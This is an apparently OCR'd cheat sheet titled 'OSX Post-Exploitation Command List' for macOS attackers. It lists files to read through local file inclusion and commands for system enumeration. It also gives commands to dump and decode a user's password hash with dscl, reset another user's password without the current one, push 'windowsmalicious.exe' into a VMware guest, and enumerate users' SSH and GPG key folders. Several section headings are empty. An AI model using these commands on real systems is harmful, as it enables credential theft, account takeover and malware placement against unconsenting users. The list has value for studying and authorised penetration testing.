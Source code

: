 #### OSX Post-Exploitation Command List

```
Blind Files

(things to pull when all you can do is blindly read) LFI/dir traversal
/etc/resolv.conf (everyone always has read on this and it wont trigger an IDS)

SYSTEM

uname -a
sw_vers -productName
sw_vers -productVersion
system_profiler
id
printenv
who
ps aux
ps ea
dscl localhost -read /Search/Users/bob (read password hash of bob)
dscl localhost -read /Search/Users/bob ShadowHashData | tail -1 | xxd -r -p | plutil -convert xml1 -o - - (Dump in workable format)
dscl localhost -passwd /Search/Users/bob (change bob’s password without needing current)
/Library/Application Support/VMware Fusion/vmrun list
/Library/Application Support/VMware Fusion/vmrun CopyFileFromHostToGuest windowsmalicious.exe aWindowsVM
/Library/Application Support/VMware Fusion/vmrun captureScreen WindowsVM
Snow Leopard and Lion
dscacheutil -q user
dscacheutil -q group
Tiger
lookupd -q user
lookupd -q group

Networking

ifconfig
netstat -np tcp
netstat -np udp

Configs

ls -alh /private/etc/
ls -alh /Library/Application Support/VMware Fusion/

Packages

port installed
ls -alh /Applications/

Finding Important Files

ls -ma ~/
ls -alh /Users/
ls -alh /Users/*/.ssh/
ls -alh /Users/*/.gnupg/
ls -alh /Volumes/

Files to pull

Remote System Access

Priv

```